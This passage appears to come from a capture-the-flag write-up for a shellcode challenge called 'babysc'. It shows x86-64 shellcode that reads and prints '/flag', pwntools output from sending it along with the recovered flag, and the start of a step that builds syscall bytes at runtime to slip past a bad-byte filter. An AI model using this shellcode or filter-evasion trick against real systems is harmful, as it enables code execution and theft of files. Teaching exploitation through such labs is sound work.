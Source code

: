    ```sh
       mov rdx, 0x50
       syscall
       mov rdx, rax
       mov rax, 0x1
       mov edi, 0x1
       mov rsi, rsp
       syscall
       mov rax, 60
       xor edi, edi
       syscall
       path:
         .string "/flag"
   [DEBUG] /usr/bin/x86_64-linux-gnu-as -64 -o /tmp/pwn-asm-5i652y1g/step2 /tmp/pwn-asm-5i652y1g/step1
   [DEBUG] /usr/bin/x86_64-linux-gnu-objcopy -j .shellcode -Obinary /tmp/pwn-asm-5i652y1g/step3 /tmp/pwn-asm-5i652y1g/step4
   [DEBUG] Received 0xd bytes:
       b'Enter 0x1000\n'
   [DEBUG] Sent 0x1000 bytes:
       00000000  48 c7 c0 02  00 00 00 48  8d 3d 37 00  00 00 31 f6  │H···│···H│·=7·│··1·│
       00000010  31 d2 0f 05  48 89 c7 48  31 c0 48 89  e6 48 c7 c2  │1···│H··H│1·H·│·H··│
       00000020  50 00 00 00  0f 05 48 89  c2 48 c7 c0  01 00 00 00  │P···│··H·│·H··│····│
       00000030  bf 01 00 00  00 48 89 e6  0f 05 48 c7  c0 3c 00 00  │····│·H··│··H·│·<··│
       00000040  00 31 ff 0f  05 2f 66 6c  61 67 00 90  90 90 90 90  │·1··│·/fl│ag··│····│
       00000050  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
       *
       00001000
   [*] Switching to interactive mode

   [*] Process './babysc_no_syscall_check' stopped with exit code 0 (pid 22862)
   [DEBUG] Received 0x29 bytes:
       b'Executing shellcode!\n'
       b'\n'
       b'umcs{hello_friend}\n'
   Executing shellcode!

   umcs{hello_friend}
   [*] Got EOF while reading in interactive
   $
   ```

7. When running the script on original `babysc`:

   ```sh
   # other output
   [DEBUG] Received 0x10 bytes:
       b'Bad Byte at 18!\n'
   Bad Byte at 18!
   # other output
   ```

8. Change assembly code to dynamically load bytes `0x0f05` to replace `syscall`:
